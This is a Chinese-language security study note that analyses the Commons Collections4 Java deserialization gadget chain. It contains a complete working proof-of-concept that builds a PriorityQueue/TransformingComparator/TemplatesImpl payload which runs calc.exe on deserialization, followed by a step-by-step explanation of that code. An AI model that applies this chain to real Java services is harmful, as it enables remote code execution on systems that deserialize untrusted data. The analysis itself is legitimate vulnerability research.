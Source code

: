 ## 简介
CC4 相当于 CC2 + CC3 的结合，在ysoseria中CC4提及的是，`Variation on CommonsCollections2 that uses InstantiateTransformer instead of InvokerTransformer.`
也就是说CC4 只需要在CC2的基础上（javassist）将`InvokerTransformer`修改成`InstantiateTransformer`,`InstantiateTransforme` 在CC3中可以知道，实现了Transformer，Serializable接口，在它的transform方法中，实现了当传入的input为class时，可以直接获取其对应的构造函数直接实例化并返回，要达到使用`InstantiateTransforme` 的transform方法，这时又离不开`TrAXFilter`的构造函数，在其实例化之后就能调用`TransformerImpl`的`newTransformer`方法，最后实现调用恶意代码
### 前置知识
[Commons Collections2 分析](https://www.yuque.com/da-labs/secnotes/fbvuia)
[Commons Collections3 分析](https://www.yuque.com/da-labs/secnotes/zvy4dv)
### 环境

- jdk1.8
- commons collections4
### 利用链
```
ObjectInputStream.readObject()
			PriorityQueue.readObject()
				...
					TransformingComparator.compare()
						ChainedTransformer.transform()
                ConstantTransformer.transform()
                InstantiateTransformer.transform()
                newInstance()
                      TrAXFilter#TrAXFilter()
                      TemplatesImpl.newTransformer()
                            TemplatesImpl.getTransletInstance()
                            TemplatesImpl.defineTransletClasses
                                newInstance()
                                      Runtime.exec()
```
## POC
```java
package com.myproject;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class TestCC4 {
    public static void main(String[] args) throws Exception{
        PriorityQueue queue = new PriorityQueue(1);
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] taegetClassBytes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field field = templates.getClass().getDeclaredField("_bytecodes");
        field.setAccessible(true);
        field.set(templates,taegetClassBytes);
        Field field1 = templates.getClass().getDeclaredField("_name");
        field1.setAccessible(true);
        field1.set(templates,"123");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chain = new ChainedTransformer(transformers);
        queue.add(1);
        queue.add(1);
        TransformingComparator Tcomparator = new TransformingComparator(chain);
        Field comparator_field = PriorityQueue.class.getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue,Tcomparator);
        try{
            FileOutputStream fileOutputStrem = new FileOutputStream("cc4.ser");
            ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStrem);
            outputStream.writeObject(queue);

            FileInputStream fileInputStream = new FileInputStream("cc4.ser");
            ObjectInputStream inputStream = new ObjectInputStream(fileInputStream);
            inputStream.readObject();

        }catch(Exception e){
            e.printStackTrace();
        }

    }
}

```
![image.png](Commons Collections4 分析.assets/2023_05_19_10_37_25_uGqCkxoU.png)



## 分析
### 0x1
```java
PriorityQueue queue = new PriorityQueue(1);
```
[CC2](https://www.yuque.com/da-labs/secnotes/fbvuia)中我们可以知道，为什么明明PriorityQueue的构造函数中可以传入`TransformingComparator`的实例，但是我们却不使用可以传入`TransformingComparator`实例的构造方法，因为在传入之后，会直接调用`TransformingComparator`实例的方法，导致在还没有序列化的时候程序就已经crash了，这一步是实现CC2，CC4的关键
### 0x2
通过javasisst创建恶意代码，并将恶意代码写入到TemplatesImpl实例化后的`_bytecodes`,`_name`参数中，详情看[Commons Collections3 分析](https://www.yuque.com/da-labs/secnotes/zvy4dv)
```java
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
byte[] classBytes = cc.toBytecode();
byte[][] taegetClassBytes = new byte[][]{classBytes};
TemplatesImpl templates = TemplatesImpl.class.newInstance();
Field field = templates.getClass().getDeclaredField("_bytecodes");
field.setAccessible(true);
field.set(templates,taegetClassBytes);
Field field1 = templates.getClass().getDeclaredField("_name");
field1.setAccessible(true);
field1.set(templates,"123");
```
### 0x3
ChainedTransformer类会把我们的Transformer变成一个串，用于执行transform方法链式调用transformers[]
给队列赋值
```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
};
ChainedTransformer chain = new ChainedTransformer(transformers);
queue.add(1);
queue.add(1);
```
### 0x4
当赋值操作完成之后，再对comparator进行赋值操作，这样就能在赋值操作前不直接crash掉，并且在反序列化的时候comparator不为空，又能直接调用transform方法
```java
TransformingComparator Tcomparator = new TransformingComparator(chain);
Field comparator_field = PriorityQueue.class.getDeclaredField("comparator");
comparator_field.setAccessible(true);
comparator_field.set(queue,Tcomparator);
```
## 调试
在调试过程中，前部分同CC2，一直到`comparator.compare()`,comparator为反射传入的Tcomparator，当调用compare方法时，就会执行`this.transformer.transform(obj1)`,最后就回直接到TraXFilter的构造函数里，执行newTransformer
![image.png](Commons Collections4 分析.assets/2023_05_19_10_37_26_CRLvOmsI.png)

最后在getTransletInstance函数里，将传入的字节码实例化

![image.png](Commons Collections4 分析.assets/2023_05_19_10_37_26_vAOWG2n4.png)


